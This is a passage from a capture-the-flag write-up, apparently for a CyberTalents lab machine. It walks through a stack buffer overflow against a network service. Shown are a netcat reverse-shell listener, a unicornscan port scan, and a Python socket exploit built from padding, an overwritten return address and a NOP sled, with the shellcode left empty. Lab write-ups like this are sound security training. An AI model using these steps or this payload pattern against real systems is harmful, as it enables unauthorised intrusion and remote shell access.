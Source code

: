 		 print s.recv(1024)
		 s.send(buffer)
		 s.close()
		 {% endhighlight %}

* run script
* run nc listener `sudo nc -nlvp 443` 
* finally got a shell

<img src="/img/crashed/i.PNG" alt="Getting-gz" width="800" height="440">
  


* change ip from private to ip get from vpn(cybertalents) 
* scan again to find port to connect 
* `sudo unicornscan -ImT 172.24.226.182:1-2000`

<img src="/img/crashed/10.PNG" alt="Getting-gz" width="800" height="200">

* connect `nc 172.24.226.182 1887`

<img src="/img/crashed/20.PNG" alt="Getting-gz" width="800" height="200">

* send code to machine on cyber talents
* `import socket`
* `s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)`
* `shell=""`	
* `payload='A'*998`
* `buffer="SECRET"+payload+'\xad\x12\x50\x62'+'\x90'*16+shell+'\x90'*(2000-998-4-6-16-len(shell))`
* `s.connect(("172.24.226.182",1887))`
* `print s.recv(1024)`
* `s.send(buffer)`
* `s.close()`
